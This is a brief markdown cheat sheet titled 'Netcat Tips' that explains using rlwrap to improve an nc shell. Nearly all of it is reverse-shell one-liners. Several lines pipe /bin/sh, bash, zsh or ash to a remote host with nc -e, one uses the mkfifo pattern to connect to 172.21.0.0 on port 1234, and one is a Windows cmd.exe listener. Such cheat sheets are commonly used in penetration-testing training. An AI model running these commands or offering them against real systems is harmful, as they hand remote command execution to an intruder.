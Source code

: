 # Netcat Tips

## rlwrap

We can use rlwrap to enable better movement in an nc shell:

### Linux

```text
rlwrap nc [Your IP Address] -e /bin/sh
rlwrap nc [Your IP Address] -e /bin/bash
rlwrap nc [Your IP Address] -e /bin/zsh
rlwrap nc [Your IP Address] -e /bin/ash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|rlwrap nc 172.21.0.0 1234 >/tmp/f
```

### Windows

```text
rlwrap nc -lv [localport] -e cmd.exe
```


